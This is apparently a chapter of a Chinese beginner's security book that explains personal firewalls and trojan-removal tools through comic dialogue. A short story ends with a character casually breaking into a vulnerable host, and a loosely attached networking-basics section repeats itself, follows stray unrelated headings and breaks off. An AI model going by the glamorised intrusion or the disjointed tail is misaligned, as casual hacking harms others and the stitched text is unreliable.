天网防火墙（SkyNet-FireWall）个人版（简称为天网防火墙）：是一款由天网安全实验室制作的给个人电脑使用的网络安全程序。它根据系统管理员设定的安全规则（Security Rules）把守网络，提供强大的访问控制、身份认证、应用选通、网络地址转换（Network Address Translation）、信息过滤、虚拟专网（VPN）、流量控制、虚拟网桥等功能。它可以帮你抵挡网络入侵和攻击，防止信息泄露，并可与天网安全实验室的网站（WWW.SKY.NET.CN）相配合，根据可疑的攻击信息，来找到攻击者。天网防火墙把网络分为本地网和互联网，可以针对来自不同网络的信息而设置不同的安全方案，它适合于任何拨号上网的用户，也适合通过网络共享软件上网的用户。目前最新的版本是 2.4.8 版。

“东西是好啦，具体怎么用啦？”“且听我慢慢道来！”榕哥又摆出一副臭架子。（弟兄们，上！关门，放狗！）“好啦，我说了啦！”

“先说一下它的安装吧！”

“安装之前，我们要先来了解一下它的系统要求，不然你的系统达不到标准，可别说人家软件不好——拉不出屎说茅坑有问题。太逊了也。”

#### SkyNet 的软件环境

- Microsoft Windows 98
- Microsoft Windows NT4.0 SP4、SP5 或 SP6
- Microsoft Windows 2000

#### 硬件环境

- PC 兼容机 Intel x86
- 至少 32MB RAM，建议 64MB
- 至少 4MB 磁盘空间，建议 16MB

“看好你自己的机子够不够格让它住下来先。（RPG 的游戏里面，不是还常常有什么装备要到多少级别了才能用，什么妖精要到多少级别了才能养吗？）我想现在的机子应该都会够这种烂条件的，中古的产品早扔到博物馆去了吧？（什么，还没扔？我看你摆在家里也是当装饰品的吧？）好了，来说说它的安装吧！”


6-2-1 安装界面

它的安装界面如下：

“这个界面不用多说啦，一般的软件安装界面，都是这个德行啦：开始都来给你一堆什么 warning，一堆声明，搞得就像看 VCD 的故事片一样，每次都是：版权所有，翻版必究。不过，据我所知，似乎真的去看这段的人不多，按着做的人也挺少的。”

阿瓜：“我每次看到这个画面，实在要装的话，都要闭上眼睛，不然能免就免！”

“那你还活不活了，你家里机子放着乘凉算了！”

“我都找同学来的。有事他们担着嘛！”阿瓜咕噜咕噜。（真是卑鄙无耻。）

“你这个白痴！！！”塔哥一脚踹过去。

以上文字纯属虚构，如有雷同，实属巧合。

然后点下一步，就变成如图 6-2-2 界面：


6-2-2 安装界面

“这里……阿瓜！醒醒！”

阿瓜拖了一大滩口水：“啊！啊！讲到哪里了？”

“我靠！我打！\~\~\~\~ 来啊，关门，放狗！”

点击浏览，可以自定义安装路径。一般默认是在 `C:\Program Files\SkyNet\Firewall`。（我是不大喜欢啦！）点下一步，继续：

在图 6-2-3 这个界面是告诉你它会在开始菜单的程序栏里加上一个快捷方式，具体放到其中的哪个目录下。你按默认的也行，我自己用“游戏\天网防火墙个人版”这样的格式。你可以放到你想的地方去。


6-2-3 安装界面

单击“完成”。这时候它会问你要不要重启。

“不重启行不行，我可不能为了这么个软件把俺的 MM 给耽误了。”阿瓜泪流成河。

“不想就别重启嘛！你看下面这个提示框就知道啦（如图 6-2-5）！”

“放心了！”阿瓜由雨转晴。

“好了，安装就这么说一下就行了。现在来说说怎么用它吧，这才是要关注的问题。”榕哥说。

“对呀对呀，不会用，这个软件就是装上了也是个废物！”阿瓜举双脚赞同。


6-2-4 安装界面

打开它，会出现如图 6-2-6 画面：（但是一闪就没有了。这是个简单的介绍界面，可以在里面的“关于”项中看到它。）


6-2-5 提示框


6-2-6 天网防火墙启动界面

然后立刻出现如图 6-2-7 对话框。你可以选择上面的“单击这里免费获取注册号”到它的官方网站上的 http://www.sky.net.cn/main/view.php?cid=183 去历经一个长期远足的过程，出卖自己的一切资料，来获得一个注册号，然后你就可以不受骚扰了。（这个骚扰就是每次启动这个软件它都会弹出如上的窗口，让你每次都得点一次取消，除非你注册了它。够阴毒吧？）

关于注册，在官方网站里它会手把手地教你的，我就不多说了。

我呢，一向都不太爱“出卖”自己，也够懒，所以就不注册啦。那么它就会在你每次启动的时候出现（如图 6-2-8）界面来提醒你。单击“确定”就 OK 了。


6-2-7 注册对话框


6-2-8 信息提示对话框

“啊~它怎么没掉了呢？”阿瓜大惊失色。“别慌，别慌，它在这里。”榕哥诡秘地一笑，“在系统栏这边（是 Windows 窗口的右下角，如图 6-2-9）。看到那个带把小刀的绿色方块了没……”


6-2-9 系统栏

“双击它，就会跳出如下的界面来了。这就是 SkyNet 的主界面。”


6-2-10 天网个人版主界面


如果你觉得它提供的默认设置就可以了。如果你对此有什么苛求的话呢，那么，看看主界面左边的三个小东东，点开它们，就能看到：应用程序访问网络权限设置、自定义 IP 规则、系统设置三个界面。


6-2-11 应用程序访问网络权限设置


6-2-12 自定义 IP 规则


6-2-13 系统设置

天网是个国产的软件，所有的东东都用中文解释得很详细，这儿也就不多说废话了。刚开始时你只要稍微耐心一点点，看看具体的解释，就很容易上手了。

### 6.3 诺顿网络安全特警

阿瓜：“诺顿是什么啊？”

榕哥说：“诺顿防火墙是倍受推崇的一个防火墙，其功能之强，威力之大，非同凡响。不用不知道，用了都说好。”

我们以“诺顿网络安全特警”为例，看看诺顿强大的功能。安装完成以后，系统重新启动，出现如图 6-3-1 界面：

从这里我们就可以看到它强大的功能。点击“下一步”进行安全配置。

第一步：设置个人防火墙。


6-3-1 诺顿的首次运行界面


6-3-2 设置个人防火墙

诺顿的使用界面非常友好，每一步都有提示。单击“单击这里可以更改预设的配置”出现如图 6-3-3 画面：

中间的安全级别就不用说了，与天网一样的道理。我们还可以自定义安全级别。如果有的地方不明白是怎么回事，还可以参看帮助。


6-3-3 个人设置

6-3-5 设置隐私控制


6-3-6 查看输入的信息类型

然后，输入“说明性名称”和要保护的信息，完成后如图 6-3-8 所示：


6-3-7 添加密码


6-3-8 完成密码设置

6-3-4 详细清楚的帮助

比如，点击上图右上角的“详细资料”，出现帮助。（如图 6-3-4）

阿瓜：“我最喜欢有帮助的软件了。”

一般来说，我们默认中级安全即可。在左边还有许多选项，我们稍后再说。我们回到图 6-3-2 的界面。点击下一步。

第二步：设置隐私控制。

在这可以设置要防止被盗的信息。点击“步骤 1”，如图 6-3-6 可以看到示例。

我们可以仿照示例，添加自己要保密的信息。回到主界面，点击“添加”，出现对话框。例如，我们要保护密码，则选择“密码”一项（如图 6-3-7）。

> 傻瓜技巧：由于软件会忠实地按照输入个人信息的方式进行禁止，所以最好……

只输入部分数字。例如，电话号码可以输入为 888-555-1234，也可以不带连字符输入（8885551234）或加上空格（888 555 1234），甚至将其分置于几个框中。所有这些格式的共同之处是电话号码的后四位（1234）总是在连在一起。这样，保护后四位数比保护整个号码更有效。

输入部分信息有两大优势。第一，不输入完整的信用卡号可防止他人知道。第二，它使程序能够在使用信用卡号输入的网站上禁止个人信息。

我们继续看下面。

#### 第三步：父母控制


可以选择用户的类型。呵呵，当然是为了防止不良信息被孩子们看到啦。点击“下一步”，出现密码设置界面。可以为账号设置密码。（如图 6-3-13）所示。

> 阿瓜：“我反对。我不是儿童！”

榕哥：“没关系啦，只是举个例子啦，没事的。”

下一步，设置默认账号。我们设置为“超级用户”（如图 6-3-14）。最后，出现设置完成的提示。OK，父母控制部分完成了。

阿瓜说：“这个不好，我可不想被爸爸妈妈控制。”

榕哥：“笨，你自己的电脑自己设置，谁会控制你呀，这是让你可以控制别人的啊！”

点击“单击这里可以设置‘父母控制’功能”，出现如图 6-3-11 所示的界面：你可以选择账户管理器。我们默认即可。点击“下一步”，出现“超级用户对话框”。确认用户名和密码，这就是超级用户的账号。然后，下一步可以设置其他账号。（如图 6-3-12）所示。


6-3-14 默认账户对话框

第四步：应用程序控制。这一步的内容我们在介绍金山网镖和天网时已经讲过了。设置方法类似。点击“查找 Internet 应用程序”，弹出（图 6-3-16）对话框。


6-3-15 应用程序控制对话框


6-3-16 查找 Internet 应用程序对话框

通过扫描驱动器中的网络连接程序，我们可以找到我们不希望连接网络的程序，比如说——木马。点击“下一步”可以看到扫描结果。在希望允许连接网络的程序前面打上勾，就可以允许这个程序连接网络了。设置完成后，点击“完成”。

第五步：Norton AntiVirus（就是杀毒啊）。

这个功能是很强大的。


6-3-17 Norton AntiVirus 对话框


6-3-18 更改设置对话框

打开修改默认设置的对话框，可以更改设置。

> 阿瓜：“看着这些表单，我就兴奋。”  
> 榕哥：“是啊，瓜瓜，这里面好东西不少。”

这里面的杀毒设置与金山毒霸差不多，我们就不多说了。

第七步：禁止广告。

> 榕哥问阿瓜：“你喜欢广告吗？”  
> 阿瓜：“不喜欢，怎么了？”  
> 榕哥：“我也不喜欢，我们看看诺顿的除广告功能。”

开启“禁止广告”设置对话框。点击“下一步”，在弹出对话框里选中“禁止广告”功能。OK，不会看到广告了。

第八步：警报跟踪器。

选择“当前状态”，可以看到“当前状态”“报告”“安全性检查”三个选项。在“当前状态”选项里点击“统计表”可以查看详细信息。点击右上角的“启用”按钮，开启 Internet 保护系统。


6-3-19 禁止广告对话框


6-3-20 警报跟踪器对话框

从这里我们可以看到电脑安全状况的详细信息。选择左边的“报告”，可以设置报告的级别。


6-3-21 Internet 保护系统


6-3-22 报告对话框

点击“安全性检查”，可以对电脑进行安全检查。


6-3-23 安全性检查对话框

点击“安全风险扫描”，会登录到安全检测站，进行安全检测。

好了，到此，我们把诺顿提供的强大的安全功能都设置好了。我们可以放心地使用电脑了。

当诺顿在运行时，会在右下角的快捷启动栏里显示：。左数第三个就是诺顿的图标了。点击这个小图标，出现诺顿的主界面。如果想修改什么设置，在这里就可以修改了。

榕哥长吁了一口气，说：“阿瓜，这是最好的盾牌了，你一定要用好啊。”

榕哥顿了顿说：“其实用来防卫的还有许多专门的工具，如木马专杀工具。”

### 6.4 木马克星

“现阶段，我们处于一个充满了木马的世界，可谓水深火热。木马这东西呢，说不可怕也不可怕，它不会像风靡一时的 CIH 那样，会破坏硬盘，甚至还威胁到主板的 BIOS，搞得鸡飞狗跳，弄得‘民不聊生’，最后弄到‘谈 CIH 色变’。（当然喽，由于杀毒软件的不断升级，Z 版的保证，更重要的是 D 版的‘严格把关’（鬼知道有没有。），总之，CIH 已经差不多被人遗忘了，只剩下一段历史，任人评说。）但是你说可怕吧，木马也的确让人胆战心惊的：你愿意自己的隐私裸露给别人看吗？你愿意被人提着走——操纵着你的电脑为所欲为，而你却只有干瞪眼，最多强制关掉电源来表示反抗吗？你愿意……千言万语——一句话：不愿意！但是，时下木马遍地都是，比杨树还容易成活，它们潜入的手段越来越高明，潜伏的效……”

> “那怎么办呢？”

“正所谓‘最好的防守就是进攻’！只有武装才能镇压一切。你发无数条消息来恳求那些给你们爱机植入木马的人，就算用上双膝下跪的‘猛虎落地势’，也不会有人来甩你的。所以只有站起来，拿起枪杆子，同他们进行面对面的较量，假如不幸落败了，那么……安息吧……阿门~”

“这叫什么话？”阿瓜说。

“开个玩笑啦！现在就来给你讲讲除杀木马的一款软件，叫做‘木马克星’。”


“没什么嘛，和小猪快跑的差不多一样。”阿瓜撇撇嘴。

“差多了。”榕哥神秘地一笑。刚才给你说过啦，这小东西别看它界面简单，功能还忒全的呢。正所谓‘麻雀虽小，五脏俱全’嘛！你看它左边的几个菜单栏，它包括很多种功能：

### 阿瓜链接 1

木马克星（iparmor）：目前它的最新版本为 V5.34 简体中文版注册版，该版本内置木马防火墙，可以阻止黑客入侵，并能够准确报告黑客位置；它采用动态监视网络连接和静态特征字扫描技术，可以查杀数十种国际国内木马、QQ 木马等等……

安装完成以后，它会在安装目录下生成以下几个文件：


主程序是那个三角形的图标。它是：Iparmor.exe，点击安装它。

### 杀入木马

安装完成后可以直接进入主界面，当你第二次启动它的时候，就会出现（如图 6-4-2）界面。

它要求你进行注册，注册的方法，和你上网的时候申请 E-mail 填的内容是大同小异的。我们先不管它，点“继续”进入它的主界面，看看它到底藏有什么乾坤：


现在先来看看它的扫描内存功能（如图 6-4-4）。在右边的空白界面里会出现它的扫描结果，让你及时地了解自己的爱机当前内存中是否有木马存在，如果木马存在内存里的话，那么它的传染性是很厉害的哦。


接下来是扫描硬盘，同样的，点击打开它，会出现如图 6-4-5 所示界面：在图6-4-5的界面上可以选择要检查的路径，然后点击“Scan”按钮。一切OK了以后，那还等什么，开始Scan。

这时候，它就会乖乖地帮你找出木马程序来了。你当然有权只是找它出来，而留它在你的系统里面慢慢地腐蚀你，暴露你。反正我是比较会“辣手摧花”啦——士可忍，孰不可忍。我通常都把旁边那个“消除木马”也一起勾上。叫你木马再害人？

接下来是设置：

在“设置”对话框里只有很有限的几个选项，如图6-4-7所示。


“这么直白的东西，我就不解释了吧，说了也是侮辱你的智慧，对吧，阿瓜？”榕哥说，心下却说，简直妄抬举你了。

“对，你不用说了，我懂！”呵，阿瓜这小子，给你点颜料你就开染坊，给你点阳光你就灿烂啊。

剩下的更新病毒库也类似，至于刷新，和千千万万软件中的一样啦，说了也是废话。

在查看一栏中，只是提供了一些信息的浏览处：系统进程提供查看当前系统正运行的程序名，网络状态提供查看一些网络当前信息，查看共享也无非是让你瞧瞧当前爱机中文件的共享情况喽；启动项目……哎呀，不说了啦，你自己看去吧。

至于后面的几个都是浏览一下在安装目录之下的几个文件，它们都是以文本来存储的。刚才看到那几个文件里，不是有以txt为扩展名的几个文件吗？这里看的就是那几个文件了。

关于“注册”就不用我说了吧？

“你还是说一说吧！”阿瓜哀求。

“啊，自己看去！”（榕哥对着阿瓜就是一顿好打！）


“至此，已经把这款‘木马克星’基本完全地介绍给你啦。你小子以后注意着用吧。哎哟，可累死我了……”榕哥抹一把额头上的汗水说道。

### 6.5 小而精的武器——小软天堂

说到软件，现在是D版猖獗。当然喽，Z版的价位久居不下（其实现在已经疯狂放血了，阿瓜啊，要是有点RMB的话就支持一下吧！）是很重要的一个原因；现下，一张Z版的Windows安装盘要上千元，连OEM版都要好几百，而一张D版从头到脚，外加服务人员热情招待，最多才花个5元。大家当然都理所当然地选择D版了。不管怎么说吧，这是题外话了，只是纯粹为了软件事业的蒸蒸日上而打出点响亮的口号。阿瓜，你可要记着，至少也要从“我”做起，支持Z版哦（才不管你有没有钱~）。在支持软件的同时，还是更多地来关注一下自己祖国的软件事业吧。

时下，软件业之中涌现出一大批freesoft。这些自由的软件，作者你就不用知道是谁啦，能够让自己从中学习啦，等等等等。（而且这很有可能成为瓜仔你今后捞钱的道道哦。）


闲话扯得远了。还是切入正题，现在要给你说的是一些防火墙的软件。刚才也说啦，要好好关注祖国的事业发展嘛。那就先来说说国产的小软件好了。

我现在手头上就有这么一款，短小精悍，玲珑剔透的好东西，名字也很可爱，叫做小猪快跑；这是一款绿色软件。

“请问……什么是绿色软件，是外观都是绿颜色的吗？”阿瓜举手问。

“不要拦着我，我走，我走，真是气死我了，本来以为你总算成点气候了，给你说了那么多，没想到还是菜鸟一个。”榕哥勃然大怒，但是还是带着满腔的“恨铁不成钢”，坐在那里啕啕大哭。

“认了，就给你说一说吧！”榕哥终于还是无可奈何。


### 6-5-1 “小猪快跑”主界面

## 图瓜常识

一般的软件在安装的时候呢，会给你的Windows加膘。比如说，在你的注册表里面就留下一大堆东西——人家孙悟空（自以为）到天边的时候，不过撒了泡尿嘛？除了注册表，在Windows的安装目录（一般默认都是C:\Windows）之下呢，还会留下它千古不灭的“犯罪”证据。所以你经常发现你明明很小心地不往C盘放东西，可是你的Windows那个目录就是有事没事长几斤、多几两，搞得你惶惶不可终日；担心有那么一天，这C盘被撑爆了，系统崩溃。（当然这种担心根本多余。）

而这些绿色软件呢，它们就比较乖啦，自己用自己的，也不多往你的Windows里面掺个一脚半脚的，叫做“附庸风雅”，蹭两点光。所以深受广大民众的喜爱。

“好啦，扯了太多了！还是回来说说小猪快跑吧。”榕哥吸一口茶，说。

打开小猪快跑，会出现一个主程序文件，就是：小猪快跑.exe。双击点开它，出现如图6-5-1所示主界面。

具体的功能也不用多加介绍了，里面带有帮助文件，说得很详细了。

使用界面上的“软件操作”“端口设置”“帮助文件”“友情链接”可以对该软件进行设置、控制。

“这款软件本身很小，也不是很有知名度，至少我是没听过啦，但是为什么把它提出来呢？”阿瓜问。

“对了，它的确就像你刚才说的一样。但是，刚才也说过了，一则，它是国产的软件，作为一个中国人，当然要懂得重视自己的软件……”

“但国产的软件比这个好的比比皆是，你也用不着拿这么个烂东西来打发我吧？”阿瓜很不满意。

“你听我说完嘛。二则，这个软件是一些CFANS（电脑爱好者）自己编写的freesoft。作为一个电脑人，当然不能只是用别人的东西啦，早晚都要学会懂得自己动手，写出自己的东西，把自己对软件的理解以实物来表达出来，也给别人点好处嘛！

时下，唯一一款能对抗Windows这个操作系统霸主的东西，就是由无数的电脑人共同合作做出来的Linux了。

Linux不知道？唉，现在的人都被Microsoft迷惑成这么闭目塞听了。真丢人，这么出名的东西都不知道，自己找书看去，这个不属于本书的交代范畴。背离了本书之道，作者要是K死我榕哥怎么办。你阿瓜看过去个尖嘴猴腮样，料想也不是什么讲义气的人。”

“555，侮辱我这么让人骄傲的容貌！”唉，这个阿瓜。

“好了，说到这些也只是给你提个醒，交代交代。再给你说一下防火墙方面的比较典型的几个软件吧。”榕哥说。

“还都是国产的吗？”阿瓜问。

“不全是了。所谓要取其精华，弃其糟粕，批判地继承嘛！对于国外一些好的软件，我们还是要加以肯定的。现在就说说这几款吧。你也不要管它是国产的还是洋鬼子做的啦。”榕哥把当年被迫强咽下的两句政治书上的话都搬出来了，还真是用心良苦啊。

## 阿瓜推荐

X-NetStat，现在拿到的版本是3.0，可运行在Windows 9x/NT上，监视当前网络和互联网络连接。X-NetStat可显示每一个当前连接的本地/远程网络地址（主机名或IP）、本地/远程端口和连接状态，支持ICMP、UDP、TCP协议。任何时候当你连接到一个网站、检查电子邮件、发送ICQ信息，或者系统内后门激活时，X-NetStat都能够探测到，并在其窗口中显示每一个连接的详细信息。X-NetStat可让你深入到网络活动的细节，拥有直观的接口界面，在装入系统时隐藏（在任务栏内无显示）。总的来说，X-NetStat提供了一种快速察看互联网/LAN活动的途径，优秀的GUI界面和许多有用的选项。

安装后得到以下几个文件：


运行时主界面如图6-5-2：


> 6-5-2 “X-NetStat”主界面

## Xfilter（费尔个人防火墙）V2.0

- 基本功能：
  1. 应用层/核心层双重过滤，完全控管TCP/IP网络封包。
  2. 防出墙/防入墙双墙防护，防止信息泄漏和外来攻击。
  3. 对网上邻居共享资源的全面控管，做到局域网安全。
  4. 对ICMP（PING）的控制，有效保护IP地址安全。
  5. 功能强大的日志记录功能。
- 人性化功能：
  1. 网络状态指示器、流量示波器、封包监视器，生动地展现网络状态。
  2. 全程交互式控管规则自动生成器，可动态、交互式、自动生成控管规则。
  3. 人性化的用户界面融合强大的控管能力，既可满足一般用户简单易用需求，也可供专业人士进行复杂安全防范配置。

“来看着它的界面吧，你很快会爱上它的！”安装以后总共有如下几个文件在安装文件夹下：


在遇到非法入境者的时候，就会弹出如图6-5-3所示窗口。至于取舍，阿瓜，自己决定吧：关掉它，看看系统任务栏里多了什么，一个“i”型和一个耳麦形状的图标，点击打开它看看吧：


> 6-5-3 访问连接提示对话框

这就是它的主界面了，界面采用紫色的背景色，透出了温馨浪漫的气息，雅而不俗。


给人以无比亲切的感觉。（强力推荐）


### 6-5-4 “费尔个人防火墙”主界面

“费尔个人防火墙，为您营造一个充满乐趣的安全网络。”榕哥唱起来了，“费尔，费尔……”“好了啦！”阿瓜一脚飞来。

到现在为止已经给你讲了不少了吧。我可爱的莲花，我可爱的葵花宝典都已经给你拔掉半条命了。

“Half-Life？oh, yes，这个我知道，是时下很fashion的游戏，我每天都要为反恐事业做出很大贡献呢！”阿瓜洋洋得意。

“来人，疯狗伺候！”榕哥雷霆大怒——刚才在CS（Counter-Strike）上不知道被谁阴了好几百次，搞得他这个天天号称宇宙无双的“莲葵夫人”最后只得了个负几百的分数。

……

此类的软件比比皆是，如果你有心，满地都可以找得到啦，我就介绍这么几款，你自己看着办吧。哈哈。

阿瓜：……真不负责任！

呵呵地看着阿瓜，阿瓜意识到失态，急忙一把抹掉泪痕，呵斥阿呆：“看什么看，去给我买冰棒。”阿呆急忙服务去了。阿瓜随便扫描了一下网络，发现了一台有漏洞的主机，于是轻车熟路就进去了。阿瓜叫阿呆过来一起看他的杰作，正炫耀间，突然屏幕弹出一行文字：

> “阿瓜，你好啊，很久不见，没想到第一个闯入我们为了诱骗黑客而伪装的主机的人竟然是你。”

啊！！！榕哥！！！

………………………………

## 尾声：


历经一个暑假的磨练，阿瓜终于功德圆满，成长为一个名副其实的“黑客”（其实最多只能算是Cracker），他也收了个徒弟名字叫阿呆，这对“呆瓜组合”，据他自己说无人能敌。

而榕哥，突然从网络世界里消失得无影无踪，不着痕迹。江湖上传闻，榕哥出家了，据说是为了远离网络凡尘之纷纷扰扰；也有人说，曾经看见榕哥和一个MM在韩国看世界杯……

一天，阿瓜穿上了风衣，头发打了厚厚的发油，嘴叼一根牙签，带着阿呆去上网，让阿呆见识一下“黑客”的威风。阿瓜从衣服里面掏出榕哥送给他的黑客葵花宝典。睹物思人，阿瓜想起了榕哥，两滴热泪掉在键盘上，阿呆傻……

## 化工

## 化学 3

## 网络基础知识

很多朋友对网络基础的了解还不是很够，这里给大家详细介绍一下。

### 一、网络的定义及特点

计算机网络，就是把分布在不同地理区域的计算机与专门的外部设备用通信线路互连成一个规模大、功能强的网络系统，从而使众多的计算机可以方便地互相传递信息，共享信息资源。

- 资源共享：网络的出现使资源共享变得很简单，交流双方可以跨越时空的障碍，随时随地传递信息。
- 信息传输与集中处理：数据通过网络传递到服务器中，由服务器集中处理后再回送到终端。
- 负载均衡与分布处理：通过多地服务器部署与调度实现访问分担，提升访问效率与可靠性。
- 综合信息服务：在一套系统上提供多维信息服务（图像、语音、动画等），催生多种网络应用形式。
- 电子邮件——网络交流方式之一，收件人不必实时在线，可稍后查收。
- 网上交易——通过网络做生意，部分场景需网络直接结算，对安全性要求较高。
- 视频点播——新兴娱乐或学习项目，常用于社区、酒店、学校等场景。
- 联机会议（视频会议）——通过网络开会，参与者需主动发送图像、数据与声音，对网络实时处理速度要求高。

以上对网络功能只是略举一二，后续可通过更详尽案例加深理解。

### 二、网络的分类及组成

计算机网络类型很多：按交换技术可分为线路交换网、分组交换网；按传输技术可分为广播网、非广播多路访问网、点到点网；按拓扑结构可分为总线型、星型、环形、树形、全网状和部分网状网络；按传输介质可分为同轴电缆、双绞线、光纤或卫星等。本文主要按分布规模划分：局域网、城域网、广域网和网间网。

## 局域网-LAN（Local Area Network）

将小区域内各种通信设备互连形成的网络，覆盖范围通常限于房间、大楼或园区。其特点是距离短、延迟小、速率高、传输可靠。常见局域网类型包括以太网（Ethernet）、令牌环网（Token Ring）、FDDI、ATM等；其中应用最广的是以太网。

## 局域网的常用设备有：

- 网卡（NIC）：插在计算机主板插槽中，负责将用户数据转换为网络可识别格式，并通过网络介质传输。其主要技术参数为带宽、总线方式、电气接口方式等。
- 集线器（Hub）：单一总线共享式设备，提供很多网络接口，负责将网络中多个计算机连在一起。所谓共享是指集线器所有端口共用一条数据总线，因此平均每用户（端口）传递的数据量、速率等受活动用户（端口）总数量的限制。它的主要性能参数有总带宽、端口数、智能程度（是否支持网络管理）、扩展性（可否级联和堆叠）等。
- 交换机（Switch）：也称交换式集线器。它同样具备许多接口，提供多个网络节点互连。但它的性能却较共享集线器大为提高；相当于拥有多条总线，使各端口设备能独立地作数据传递而不受其它设备影响，表现在用户面前即是各端口有独立、固定的带宽。此外，交换机还具备集线器欠缺的功能，如数据过滤、网络分段、广播控制等。
- 线缆：局域网的距离扩展需要通过线缆来实现，不同的局域网有不同连接线缆，如光纤、双绞线、同轴电缆等。

## 城域网-MAN（Metropolitan Area Network）

MAN的覆盖范围限于一个城市，目前对于城域网少有针对性的技术，一般根据实际情况通过局域网或广域网来实现。

## 广域网-WAN（Wide Area Network）

WAN连接地理范围较大，常常是一个国家或是一个洲。其目的是为了让分布较远的各局域网互连，所以它的结构又分为末端系统（两端的用户集合）和通信系统（中间链路）两部分。通信系统是广域网的关键，它主要有以下几种：

- 公共电话网，即PSTN（Public Switched Telephone Network），速度9600bps～28.8kbps，经压缩后最高可达115.2kbps，传输介质是普通电话线。它的特点是费用低、易于建立，且分布广泛。
- 综合业务数字网，即ISDN（Integrated Service Digital Network），也是一种拨号连接方式。低速接口为128kbps（高速可达2M），它使用ISDN线路或通过电信局在普通电话线上加装ISDN业务。ISDN为数字传输方式，具有连接迅速、传输可靠等特点，并支持对方号码识别。ISDN话费较普通电话略高，但它的双通道使其能同时支持两路独立的应用，是一项对个人或小型办公室较适合的网络接入方式。
- 专线，即Leased Line，在中国称为DDN，是一种点到点的连接方式，速度一般选择64kbps～2.048Mbps。专线的好处是数据传递有较好的保障，带宽恒定；但价格昂贵，而且点到点的结构不够灵活。
- X.25网是一种出现较早且依然应用广泛的广域网方式，速度为9600bps～64kbps；有冗余纠错功能，可靠性高，但由此带来的副效应是速度慢、延迟大。
- 帧中继，即Frame Relay，是在X.25基础上发展起来的较新技术，速度一般选择为64kbps～2.048Mbps。帧中继的特点是灵活、弹性；可实现一点对多点的连接，并且在数据量大时可超越约定速率传送数据，是一种较好的商业用户连接选择。
- 异步传输模式，即ATM（Asynchronous Transfer Mode），是一种信元交换网络，最大特点是速率高、延迟小、传输质量有保障。ATM大多采用光纤作为连接介质，速率可高达上千兆（10^9bps），但成本也很高。

广域网与局域网的区别在于：线路通常需要付费。多数企业不可能自己架设线路，而需要租用已有链路，故广域网的大部分花费用在了这里。人们常常考虑如何优化使用带宽，将“好刀用在刀刃上”。

## 广域网常用设备有：

- 路由器（Router）：广域网通信过程根据地址来寻找达到目的地的路径，这个过程在广域网中称为“路由（Routing）”。路由器负责在各段广域网和局域网间根据地址建立路由，将数据送到最终目的地。
- 调制解调器（Modem）：作为末端系统和通信系统之间信号转换的设备，是广域网中必不可少的设备之一。分为同步和异步两种，分别用来与路由器的同步和异步串口相连接；同步可用于专线、帧中继、X.25等，异步用于PSTN的连接。

#### 网间网

即Internetwork，是一系列局域网和广域网的组合，因此包含的技术也是现有的局域网和广域网技术的综合。Internet便是一个当前最大也最为典型的网间网。

## 二、协议的定义及意义

协议是对网络中设备以何种方式交换信息的一系列规定的组合，它对信息交换的速率、传输代码、代码结构、传输控制步骤、出错控制等许多参数作出定义。

网络是一个相互联结的大群体，因此要想加入到这个群体中来，就不能随心所欲，任由兴之所发。就好像一个国家或一个种族拥有自己的语言，大家都必须通晓并凭借这种语言来对话一样，相互联结的网络中各个节点也需要拥有共同的“语言”，依据它所定义的规则来控制数据的传递，这种语言便是大家经常听说的“协议”。协议是对网络中设备以何种方式交换信息的一系列规定的组合，它对信息交换的速率、传输代码、代码结构、传输控制步骤、出错控制等许多参数作出定义。

对网络初入门者来说，纷繁复杂的协议常常让人头痛不已——这些协议各起什么作用？它们之间又有什么联系？为什么有了A协议还需要补充B协议？这些问题搞不清楚，往往成为进一步学习的障碍。其实这个问题应该这样理解：是先有了各种不同语言的民族，后来随着社会的发展，才有了不同民族间交流的需求。网络也是这样，最初人们在小范围内建立网络，只需要自己作一些简单的约定，保证这一有限范围内的用户遵守就可以了；到后来网络规模越来越大，才考虑到制定更严格的规章制度即协议；而为了实现多个不同网络的互联，又会增加不少新协议作为补充，或成长为统一的新标准。

数据在网络中由源传输到目的地，需要一系列的加工处理。为了便于理解，我们这里不妨打个比喻。如果我们把数据比作巧克力：我们可以把加工巧克力的设备作为源，而把消费者的手作为目的来看看会有什么样的传输过程。巧克力厂通常会为每块巧克力外边加上一层包装，然后还会将若干巧克力装入一个巧克力盒，再把几个巧克力盒一起装入一个外包装，运输公司还会把许多箱巧克力装入一个集装箱。到达消费者所在的城市后，又会由运输商、批发商、零售商、消费者打开不同的包装层。不同层次的包装、解包装需要不同的规范和设备，计算机网络也同样有不同的封装、传输层面。为此国际标准化组织ISO于1978年提出“开放系统互连参考模型”，即著名的OSI（Open System Interconnection）七层模型，它将是我们后续篇幅中要介绍的内容，这里先不展开论述。

网络的协议就是用作这些不同网络层的行为规范的。网络在发展过程中形成了很多不同的协议族，每一协议族都在网络的各层对应有相应的协议，其中作为Internet规范的是TCP/IP协议族，这也是我们今天要讲的。

## 图 TCP/IP协议的定义以及层次、功能

什么是TCP/IP协议，划为几层，各有什么功能？

TCP/IP协议族包含了很多功能各异的子协议。为此我们也利用上文所述的分层方式来剖析它的结构。TCP/IP层次模型共分为四层：应用层、传输层、网络层、数据链路层。

## TCP/IP网络协议

TCP/IP（Transmission Control Protocol/Internet Protocol，传输控制协议/网间网协议）是目前世界上应用最为广泛的协议，它的流行与Internet的迅猛发展密切相关——TCP/IP最初是为互联网的原型ARPANET所设计的，目的是提供一整套方便实用、能应用于多种网络上的协议。事实证明TCP/IP做到了这一点，它使网络互联变得容易起来，并且使越来越多的网络加入其中，成为Internet的事实标准。

- 应用层——应用层是所有用户所面向的应用程序的统称。TCP/IP协议族在这一层面有着很多协议来支持不同的应用，许多大家所熟悉的基于Internet的应用的实现就离不开这些协议。如我们进行万维网（WWW）访问用到了HTTP协议、文件传输用FTP协议、电子邮件发送用SMTP、域名解析用DNS协议、远程登录用Telnet协议等等，都是属于TCP/IP应用层的。
- 传输层——这一层的功能主要是提供应用程序间的通信，TCP/IP协议族在这一层的协议有TCP和UDP。
- 网络层——是TCP/IP协议族中非常关键的一层，主要定义了IP地址格式，从而能够使得不同应用类型的数据在Internet上通畅地传输，IP协议就是一个网络层协议。
- 网络接口层——这是TCP/IP软件的最低层，负责接收IP数据包并通过网络发送之，或者从网络上接收物理帧，抽出IP数据报，交给上层协议处理。


IP层。

## 1. TCP/UDP协议

